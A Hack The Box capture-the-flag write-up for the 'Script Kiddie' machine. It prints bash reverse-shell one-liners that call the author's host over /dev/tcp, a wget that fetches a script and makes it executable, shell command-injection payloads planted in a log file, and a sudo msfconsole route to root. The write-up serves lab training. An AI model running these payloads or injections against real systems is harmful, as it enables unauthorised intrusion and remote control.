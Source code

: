 # Writeup for [Script Kiddie](https://www.hackthebox.eu/home/machines/profile/314) from [Hack The Box](https://www.hackthebox.eu)

## Table of Contents
<!-- MarkdownTOC -->

- [Machine Information](#machine-information)
- [Information Gathering and Enumeration](#information-gathering-and-enumeration)
- [Exploitation](#exploitation)
- [Privilege Escalation](#privilege-escalation)
	- [Kid user to Pwn user](#kid-user-to-pwn-user)
	- [Pwn user to Root Shell](#pwn-user-to-root-shell)

<!-- /MarkdownTOC -->



## Machine Information
* OS 			: Linux
* Difficulty 	: Easy
* Points 		: 20
* Released 		: 6 February 2021
* IP Address 	: 10.10.10.226



## Information Gathering and Enumeration

As usual, we're going to start off with a simple nmap scan to see what services are running on the box.

```bash
nmap -sCV -oN nmap/initial 10.10.10.226
```

Looking at the nmap scan, we only see 2 ports open. `SSH` on 22 and `HTTP` on 5000.

![nmap-result](./img/nmap-result.png)

Navigating to the webpage we see a webapp that lets us use some basic tools. Looks like there is `nmap`, `msfvenom`, and `searchsploit`.

![webpage](./img/webpage.png)

Since we can provide user input, it might be a good idea to try command injection. I spent about an hour trying different payloads like using `;ls` , `$(ls)`, ``` `ls` ```, `' ls`, and all other variants but none of them seem to work.

After that I tried looking for exploits for those particular software. And I found that `msfvenom` had an exploit on searchsploit.

![searchsploit-venom](./img/searchsploit-venom.png)

Considering that this exploit was disclosed on `October 29 2020` and this box was released in `February 6 2021`, we can assume that this exploit might be our foothold to the box.

## Exploitation

Let's mirror that file and change the payload to a reverse shell that will execute on the box.

```bash
bash -c "bash -i >& /dev/tcp/10.10.16.2/9001 0>&1"'
```

Also make sure that you change the `b64encode` function to `b32encode` function, because base64 encoded strings can break `keytool` program used in the script.

![payload-change](./img/payload-change.png)

Let's run this script and get our apk file.

![evil-apk](./img/evil-apk.png)

After getting the apk file, let's setup a listener on our local box with netcat. ( You might need to use `nc` instead of `ncat`)

```bash
ncat -lnvp 9001
```
Upload the file, and we should get a connection back. Make sure to set the OS to `android`.

![upload](./img/upload.png)

We get a shell as `kid` on the box.

![shell](./img/shell.png)

## Privilege Escalation

### Kid user to Pwn user
As always, we should start with the super low hanging fruit like `sudo` and `SUID` binaries. 

Let's check for `sudo` privileges with `sudo -l`. It prompts us with a password that we don't know, so we're just going to skip `sudo` for now.

Next, we check for `SUID` binaries with the find command.

```bash
find / -perm -4000 2>/dev/null
```

Looking through the output, we don't see anything that stands out. So let's upload [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.git)

Setup a simple python http server inside the directory containing linpeas. I put it in my `opt` directory.

```
python3 -m http.server
```

And from the victim machine, let's download this script in a more isolated directory.

```bash
cd /dev/shm && wget http://10.10.16.2:8000/linpeas.sh && chmod +x linpeas.sh
```

Running `linpeas`, we get a bunch of output. We can see that there is a `pwn` user, and we see a `scanlosers.sh` script.

![linpeas-scanlosers](./img/linpeas-scanlosers.png)

Reading the script, we found a couple things. It looks like the script is reading from a file that we as the `kid` user can control. We also see that the script is simply concatenating the `ip` variable that we can potentially abuse to get command injection.

![scan-loser](./img/scan-loser.png)

We see this `hackers` file that when we write to it, it instantly gets cleared out. The last line of the `scanlosers.sh` script is responsible for this. Now we know that this `scanlosers.sh` is continously running.

![continue-running](./img/continue-running.png)

Let's try to reverse engineer how this script works in our local box, and craft the payload. We should also modify it a little so it's more convenient to debug

```bash
#!/bin/bash

log=$1 # Set the log variable to the first argument given.

cat $log | cut -d' ' -f3- | sort -u | while read ip; do
        echo $ip
done

```


The important part of this script is that `cut` command. It will use a space character to delimit the strings, and print the third entry. So if we do a payload like this, we should get `myteam`.

```bash
test test myteam
```

![poc](./img/poc.png)

Now that we got that out of the way, let's try to craft a payload that will execute commands.

Going back the original script, let's try to copy the `nmap` command that it's doing to our script. So our script will look like this.

```bash
#!/bin/bash

log=$1

cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

```

Reading the `nmap` command on the script, it looks like that there are 2 places where `ip` is placed. It's important that we make sure it doesn't error out when crafting the payload, so we're going to start the payload with `;` that will denote to chain the command, and the `#` will comment the rest of the code.


```bash
;bash -c 'id' #
```

```bash
sh -c "nmap --top-ports 10 -oN recon/;bash -c 'id'.nmap ;bash -c 'id' 2>&1 >/dev/null"
```

The above command will not comment the rest of the code, and will try to execute `id.nmap` and then excute `id` from the **second injection** that will be redirected to `/dev/null`. But if we add the `#` then the command will look like this.

```bash
sh -c "nmap --top-ports 10 -oN recon/;bash -c 'id' #.nmap ;bash -c 'id' # 2>&1 >/dev/null"
```

Notice that `;bash -c 'id'` on the **first injection** will execute and all the commands after will be commented out. That way, we can see the output of our command.

![cmd-injection](./img/cmd-injection.png)

Now we can just add this payload to the box. Remember that the log file being used is in `/home/kid/logs/hackers`. So we just need to inject the payload there. We should also change the payload to give us a reverse shell.

Considering that we can't see the output of the command when running the exploit on the box ( since we're not executing it ), injecting the payload with or without `#` should still get us a reverse shell.

```bash
test test ;bash -c 'bash -i >& /dev/tcp/10.10.16.2/9001 0>&1' #
```

As usual, let's setup a listener on our local box with `netcat`. ( Use `nc` if you don't have `ncat`)

```bash
ncat -lnvp 9001
```

Then let's echo the payload to the file. We should get a reverse shell back as `pwn`.

![pwn](./img/pwn.png)

### Pwn user to Root Shell

As usual, we're going to start with some low hanging fruit. Running `sudo -l` we see that we can run `msfconsole` with root privileges without a password.

![pwn-msf](./img/pwn-msf.png)

We just need to run this command and we are effectively root on the box through metasploit.

```bash
sudo /opt/metasploit-framework-6.0.9/msfconsole
```

```bash
msf6 > wc -c /root/root.txt && hostname
[*] exec: wc -c /root/root.txt && hostname

33 /root/root.txt
scriptkiddie
msf6 > 
```

![root](./img/root.png)